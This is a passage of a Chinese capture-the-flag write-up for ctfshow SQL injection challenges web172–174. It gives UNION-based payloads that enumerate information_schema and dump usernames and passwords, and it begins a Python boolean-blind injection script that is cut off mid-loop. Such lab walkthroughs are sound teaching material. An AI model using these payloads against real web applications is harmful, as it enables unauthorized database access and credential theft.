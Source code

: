 

<img src="https://i-blog.csdnimg.cn/blog_migrate/7c9907f16722ced1f4b742dc6cfdd2f8.png" alt="" style="max-height:262px; box-sizing:content-box;" />


## web172  变为两个字段

```cobol
3' union select 2,3-- +

这题修改为两个字段 

其他和上面无差别

-1'+union+select+1,group_concat(id,username,password)+from+ctfshow_user2--+%2
 
获取flag
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/21638968328cf7d15977ba2bd41e001e.png" alt="" style="max-height:283px; box-sizing:content-box;" />


## web173  没看出区别

```cobol
3' union select 2,database(),3-- +


-1'+union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema%3ddatabase()--+%2b   
 
查看表 ctfshow_user
 
-1'+union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_name%3d'ctfshow_user3'--+%2b

查看字段名 id,username,password

-1' union select 1,group_concat(id,password),3 from ctfshow_user3-- +
 
获取flag
```

## web174 布尔盲注

我们开始写盲注脚本

之前一直写错了 所以我们开始写

```cobol
import requests
 
url = "http://9e7dc39c-5e8a-4608-a025-1f9eddee64a2.challenge.ctf.show/api/v4.php?id="
# payload = "1' and (ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))={1})-- +"
# payload = "1' and (ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user4'),{0},1))={1})-- +"
payload = "1' and (ascii(substr((select group_concat(id,'--',username,'--',password)from ctfshow_user4 where username='flag'),{0},1))={1})-- +"
result = ''
flag = ''
for i in range(1,50):
    for j in range(37,128):
        payload1 = payload.format(i,j)
```